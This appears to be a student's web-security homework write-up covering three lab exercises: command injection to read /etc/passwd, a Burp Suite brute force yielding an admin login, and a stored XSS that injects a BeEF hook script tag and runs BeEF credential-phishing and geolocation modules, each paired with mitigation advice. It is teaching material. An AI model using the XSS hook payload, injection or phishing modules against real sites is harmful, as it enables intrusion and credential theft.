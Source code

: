 # Unit 15 Homework - Web-Vulnerabilities and Hardening

## Web Apllication #1
### Command Injection
#### Exploit
Using the dwva, use command injection to view the passwd and hosts file in /etc

![etc/passwd](Images/etc-passwd.PNG)
![etc/hosts](Images/etc-hosts.PNG)

#### Mitigation
The best way to avoid this vulnerability is to not allow the execution of OS commands. However, when this is not possible, properly configured server side input validation will deny access to this vulnerability.

## Web Apllication #2
### Brute Force

#### Investigation
Use the web application tool **Burp Suite**, specifically the **Burp Suite Intruder** feature, to determine if any of the administrator accounts are vulnerable to a brute force attack on this web application. 

![brute-force](Images/Brute-force.PNG)

`user: tonystark`
`Password: "I am Iron Man"`

#### Mitigation
There are a number of mitigation methods to prevent brute force attacks, depending on what type of asset you are trying to defend. Two common and very effective methods are multi-factor authentication, and to lock the account after x number of failed attempts. Another possible method to prevent a brute force attack without locking the account to it's rightful owner is to prevent further attempts based on an IP address after x failed attempts, however this could easily be bypassed if the attacker is using a botnet with many ip addresses for it's bots.

## Web Application #3
### Where's the BeEF?

#### Exploit
 You are tasked with using a stored XSS attack to inject a BeEF hook into Replicants' main website.

   - Task details:
     - The page you will test is the Replicants Stored XSS application which was used the first day of this unit: `http://192.168.13.25/vulnerabilities/xss_s/`
     - The BeEF hook, which was returned after running the `sudo beef` command was: `http://127.0.0.1:3000/hook.js`
     - The payload to inject with this BeEF hook is: `<script src="http://127.0.0.1:3000/hook.js"></script>`

   -  When you attempt to inject this payload,  you will encounter a client-side limitation that will not allow you to enter the whole payload. You will need to find away around this limitation.    
      
      ![xss-post](Images/xss-post-script.PNG)
    
   - Once you are able to hook into Replicants website, attempt a couple BeEF exploits. Some that work well include:
     
     - Social Engineering >> Pretty Theft    
       ![Petty theft](Images/xxs-facebook.PNG)   
       ![BeEF facebook credentials](Images/xxs-BeEF-facebook.PNG)   
     - Social Engineering >> Fake Notification Bar   
       ![xss fake notification bar](Images/xxs-popup.PNG)   
       ![BeEF confirmation of fake notification bar](Images/xxs-BeEF-popup.PNG)   
     
     - Host >> Get Geolocation (Third Party)   
     ![BeEF GeoLocation](Images/xxs-BeEF-GeoLocation.PNG)   
     
#### Mitigation
To mitigate against xss attacks, all user input should be cleansed through the use of escaping, filtering and validation. This can be done on the client side, and **should always** be done on the server side as client side strategies won't be effective against the use of a terminal window to access your website using commands such as cURL.